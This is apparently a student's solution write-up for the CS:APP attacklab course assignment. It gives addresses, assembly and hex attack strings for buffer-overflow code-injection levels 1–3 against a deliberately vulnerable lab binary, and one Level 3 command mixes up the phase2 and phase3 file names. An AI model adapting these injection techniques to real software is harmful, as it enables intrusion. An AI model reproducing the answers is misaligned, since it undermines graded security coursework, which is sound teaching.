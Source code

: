 This file contains materials for one instance of the attacklab.

Files:

    ctarget

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

     cookie.txt

Text file containing 4-byte signature required for this lab instance.

     farm.c

Source code for gadget farm present in this instance of rtarget.  You
can compile (use flag -Og) and disassemble it to look for gadgets.

     hex2raw

Utility program to generate byte sequences.  See documentation in lab
handout.  
<br>
# Part I: Code Injection Attacks
```bash
objdump -d ctarget >> c
```
## Level 1
The address of touch1 is `4017c0`.  
In getbuf, `sub $0x28,%rsp` gives us 40 bytes space.  
So, the attack bytes: [phase1.txt](phase1.txt)
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```  
```bash
cat phase1.txt |./hex2raw |./ctarget -q
```
## Level 2
1. move cookie to %rdi
2. move touch2 address to %rsp  

So the assembly code: [phase2.s](phase2.s)
```assembly
movq $0x59b997fa,%rdi
pushq $0x4017ec
ret
```
```bash
gcc -c phase2.s
objdump -d phase2.o > phase2.d
```
So, the attack bytes: [phase2.txt](phase2.txt)
```
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
## Level 3
1. Change cookie string to bytes
2. Store bytes in somewhere and move it to %rdi
3. move touch3 address to %rsp

| char | hex |
|:----:|:---:|
|  5   | 35  |
|  9   | 39  |
|  b   | 62  |
|  9   | 39  |
|  9   | 39  |
|  7   | 37  |
|  f   | 66  |
|  a   | 61  |

So the assembly code: [phase3.s](phase3.s)
```assembly
movq %rsp,%rdi
pushq $0x4018fa
ret
```
```bash
gcc -c phase2.s
objdump -d phase3.o > phase3.d
```
So, the attack bytes: [phase3.txt](phase3.txt)
```
48 89 e7 68 fa 18 40 00
c3 00 00 00 00 00 00 00
fa 18 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00  <- %rsp when finished getbuf()
```

